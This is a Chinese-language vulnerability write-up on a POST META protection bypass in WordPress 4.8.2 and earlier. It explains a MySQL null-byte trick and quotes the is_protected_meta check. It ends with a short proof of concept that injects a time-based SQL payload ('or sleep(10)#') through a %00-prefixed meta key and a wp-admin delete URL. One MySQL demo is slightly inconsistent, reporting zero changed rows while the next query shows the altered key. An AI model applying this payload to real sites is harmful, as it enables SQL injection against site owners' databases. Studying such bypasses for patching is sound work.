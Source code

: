 # Wordpress <= 4.8.2 POST META 校验绕过漏洞

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

一个MySQL的trick

1). 正常的条件查询语句


```sql
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 | _thumbnail_id  | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec)
```

2). 现在我们将_thumbnail_id修改成”\x00_thumbnail_id”


```sql
mysql> update wp_postmeta set meta_key = concat(0x00,'TESTC') where meta_value = '_thumbnail_id';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 0  Changed: 0  Warnings: 0
```

3). 再次执行第一步的查询


```sql
mysql> SELECT * FROM wp_postmeta WHERE meta_key = '_thumbnail_id';
+---------+---------+----------------+------------+
| meta_id | post_id | meta_key       | meta_value |
+---------+---------+----------------+------------+
|       4 |       4 |  _thumbnail_id | TESTC      |
+---------+---------+----------------+------------+
1 row in set (0.00 sec)
```

我们可以发现依然可以查询出修改后的数据。

**POST META 校验绕过**

我们来看下检查meta_key的代码，文件./wp-includes/meta.php：


```php
function is_protected_meta( $meta_key, $meta_type = null ) {
    $protected = ( '_' == $meta_key[0] );
    /**
     * Filters whether a meta key is protected.
     *
     * [@since](/since) 3.2.0
     *
     * [@param](/param) bool   $protected Whether the key is protected. Default false.
     * [@param](/param) string $meta_key  Meta key.
     * [@param](/param) string $meta_type Meta type.
     */
    return apply_filters( 'is_protected_meta', $protected, $meta_key, $meta_type );
}
```

is_protected_meta函数只检查了$meta_key的第一个字符是否以_开头。我们有了2.1的MySQL trick，想要绕过meta_key的检查就显得容易多了。

poc


```bash
添加自定义字段，meta_key为’_thumbnail_id’的meta_value为’55 %1$%s or sleep(10)#’
在添加自定义栏目/字段时抓包，将_thumbnail_id替换为%00_thumbnail_id
访问/wp-admin/edit.php?action=delete&_wpnonce=xxx&ids=55 %1$%s or sleep(10)#，触发SQL注入漏洞
参考
```
